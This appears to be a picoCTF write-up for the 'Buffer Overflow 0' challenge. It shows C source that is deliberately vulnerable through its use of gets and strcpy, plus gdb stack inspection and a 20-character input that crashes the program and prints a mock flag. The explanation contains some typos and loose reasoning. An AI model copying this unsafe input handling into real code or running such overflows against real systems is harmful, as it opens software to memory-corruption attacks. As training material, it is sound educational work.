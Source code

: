 # picoCTF - Buffer Overflow 0

This is the 'buffer overflow 0' level from picoCTF. It can be found here, along with the binary source code. 

Let's take a look at the code first:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

After the validation for the 'flag.txt' file, there's this line `signal(SIGSEGV, sigsev_handler);i` which will call the 'sigsegv_handler' if the signal 'SIGSEGV' is received. 

This function is the one in charge of printing the flag.

So, we basically need to get a 'SIGSEGV' to occur, and we'll get the flag. 

Let's see what else the process is doing. 

We see that it's capturing our input with the `gets(buf1)` line, and then pass that value into vuln.

If we look the 'gets' man page, it says:
*DESCRIPTION*
Never use this function.

The issue with 'gets' is that you can tell how many characters it'll read, creating the perfect scenario for a buffer overflow vulnerability. 

So, we have a buffer for 'buf1' of 100 bytes, and then we're calling gets, allowing the user to send as many chars as wanted.

The program should be using "fgets" instad, where you can specify how many chars you want to read. 

After this, it calls the 'vuln' function, where it'll copy our input, into a 16 bytes variable 'buf2'. 

Let's put a breakpoint right after the call to 'gets', to see what's on the stack.
```
gdb ./vuln
(gdb) b *main+230
run
```
It prompts for an input, so let's do "AAAA". And then continue until the breakpoint right after the gets:
```C
  0x56556463 <main+00e1>      call   0x56556130 <gets@plt>
→ 0x56556468 <main+00e6>      add    esp, 0x10
```
If we inspect the stack with `x/20wx $esp`, we can see the 20 words at the stack. (ESP is the stack pointer for 32 bits).

```
gef➤  x/20wx $esp
0xffffce80:     0xffffce94      0x000003e8      0x000003e8      0x5655641f
0xffffce90:     0x00000000      0x41414141      0x00000000      0xf7ffd000
0xffffcea0:     0xf7fc4540      0xffffffff      0x56555034      0xf7fc66d0
0xffffceb0:     0xf7ffd608      0x0000000c      0xffffcf1c      0xffffd0d8
0xffffcec0:     0x00000000      0x00000000      0x01000000      0x0000000c
```

At `0xffffce94` we see the 4 'A' we input. And at `0xffffcea8` is the return address (an address that points to where to come back, in this case, an address in main). 

So. If the substract the address of the start of our input from the address that contains the return value, we have 
`0xffffcea8 - 0xffffce94 = 0x14` which is 20 bytes. 

So. If we input 20 bytes of data, we can overwrite the return address, causing this way a SIGSEGV signal. 

Let's try it by running once again the program, but with this new information. 

```
mfumega@pwn-boy:/tmp/here$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAA
mock{This_is_a_mock_flag}
```

And we got the local flag. We can do the same agaisnt the remote process, and get the flag aswell. 


